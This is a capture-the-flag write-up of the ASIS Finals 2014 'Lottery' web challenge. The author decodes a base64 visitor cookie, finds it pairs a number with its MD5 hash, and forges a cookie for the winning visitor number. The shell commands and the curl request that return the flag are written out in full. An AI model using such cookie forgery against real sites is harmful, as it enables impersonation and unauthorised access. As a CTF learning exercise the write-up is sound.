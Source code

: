 ### Solved by barrebas

Lottery was a 100 point web challenge in the ASIS Finals CTF. The description only said 'Go here: http://asis-ctf.ir:12437'. That webpage was mostly non-functional, but said that the 1234567890th visitor would win a *prize*. Gee, I wonder what that is? My browser informed me that there were no cookies, but I wasn't convinced.

![](/images/2014/asis-finals/lottery/01.png)

I turned to ```curl```. Luckily, curl informed me that there was indeed a cookie been set. A cookie named 'Visitor', no less:

![](/images/2014/asis-finals/lottery/02.png)

The value looked like base64 so I decoded it:

```
$ echo -ne 'MTM4NjozNjM3NjNlNWMzZGMzYTY4YjM5OTA1OGMzNGFlY2YyYw==' |base64 -d
1386:363763e5c3dc3a68b399058c34aecf2c
```

Hmm. I figured that first number was a visitor number. What could the second string be? MD5 maybe?

```
$ echo -ne 1386 |md5sum
363763e5c3dc3a68b399058c34aecf2c  -
```

Spot on. It's now easy to fake the right cookie:

```
$ echo -ne 1234567890 |md5sum
e807f1fcf82d132f9bb018ca6738a19f  -
$ echo -ne '1234567890:e807f1fcf82d132f9bb018ca6738a19f' |base64
MTIzNDU2Nzg5MDplODA3ZjFmY2Y4MmQxMzJmOWJiMDE4Y2E2NzM4YTE5Zg==
```

And feed it into curl:

```
$ curl -v http://asis-ctf.ir:12437/ --cookie "Visitor=MTIzNDU2Nzg5MDplODA3ZjFmY2Y4MmQxMzJmOWJiMDE4Y2E2NzM4YTE5Zg=="
* About to connect() to asis-ctf.ir port 12437 (#0)
*   Trying 87.107.124.12...
* connected
* Connected to asis-ctf.ir (87.107.124.12) port 12437 (#0)
> GET / HTTP/1.1
> User-Agent: curl/7.26.0
> Host: asis-ctf.ir:12437
> Accept: */*
> Cookie: Visitor=MTIzNDU2Nzg5MDplODA3ZjFmY2Y4MmQxMzJmOWJiMDE4Y2E2NzM4YTE5Zg==
>
...snip...
Google+"></a> </div></div><div class="data-wrapper"><p class="title">The 1234567890 th visitor, the prize awarded.</p><div class="content">Anyone who has visited our site is the 1234567890 th Special prizes are awarded. <br/>the flag is: ASIS_9f1af649f25108144fc38a01f8767c0c</div></div><div class="footer"><div class="p
```

The flag is ```ASIS_9f1af649f25108144fc38a01f8767c0c```. Easy!


